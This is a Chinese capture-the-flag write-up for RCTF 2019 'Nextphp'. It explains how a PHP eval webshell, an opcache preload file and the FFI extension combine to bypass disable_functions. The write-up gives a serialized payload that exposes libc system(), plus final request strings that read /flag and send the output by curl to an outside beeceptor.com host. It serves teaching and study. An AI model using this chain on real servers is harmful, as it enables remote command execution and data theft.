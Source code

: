 # \[RCTF 2019]Nextphp

## \[RCTF 2019]Nextphp

## 考点

* PHP FFI
* PHP opcache
* bypass disable\_functions

## wp

给了个shell的源码

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

`?a=phpinfo();`看到phpinfo中设置了disable\_functions

![](<../../.gitbook/assets/image (8).png>)

`?a=var_dump(scandir('/'));`提示没有权限，`?a=var_dump(scandir('.'));`看到两个文件，index.php和preload.php。再读取preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

实际上还是要仔细观察phpinfo，可以看到设置了opcache.preload，启用了FFI，禁用了反射类

```
opcache.preload：/var/www/html/preload.php
open_basedir：/var/www/html
disable_classes：ReflectionClass
disable_functions:
```

![](<../../.gitbook/assets/image (16).png>)

![](<../../.gitbook/assets/image (5).png>)

[opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) 是 **PHP7.4** 中新加入的功能。如果设置了 [opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) ，那么在所有Web应用程序运行之前，服务会先将设定的 **preload** 文件加载进内存中，使这些 **preload** 文件中的内容对之后的请求均可用。更多细节可以阅读：[https://wiki.php.net/rfc/preload](https://wiki.php.net/rfc/preload) ，在这篇文档尾巴可以看到如下描述：

> In conjunction with ext/FFI (dangerous extension), we may allow FFI functionality only in preloaded PHP files, but not in regular ones

大概意思就是说允许在 **preload** 文件中使用 **FFI** 拓展，但是文档中说了 **FFI** 是一个危险的拓展，而这道题目却开启了 **FFI** 拓展。我们可以参考文档：[https://wiki.php.net/rfc/ffi](https://wiki.php.net/rfc/ffi) 中的例子：

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
    "int printf(const char *format, ...);", // this is regular C declaration
    "libc.so.6");
// call C printf()
$ffi->printf("Hello %s!\n", "world");
```

如果不设置 **FFI::cdef** 的第二个参数，也可以调用 **C** 函数。那么命令执行函数格式如下

```php
<?php
$ffi = FFI::cdef("int system(const char * command);");
$ffi->system("whoami");
```

preload.php中定义了A类，实现了Serializable接口，`__unserialize()`函数会在反序列化时被调用。这一特性是在PHP7.4中新加入的，具体可参考：[https://wiki.php.net/rfc/custom\_object\_serialization](https://wiki.php.net/rfc/custom\_object\_serialization)

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
    public function __get ($key) {
        return $this->data[$key];
    }
    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

}
echo base64_encode(serialize(new A()));
// QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319I7fX0
```

传入`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319")));`

![](<../../.gitbook/assets/image (34).png>)

触发`A::run()`从而把FFI对象返回给`A->data['ret']`，再用`A::__get()`函数就可以获取FFI对象了

`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret'));`

![](<../../.gitbook/assets/image (2) (1).png>)

最后payload

```
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `cat /flag` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
```

![](<../../.gitbook/assets/image (35).png>)

## 小结

1. [RCTF2019Web题解之nextphp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)
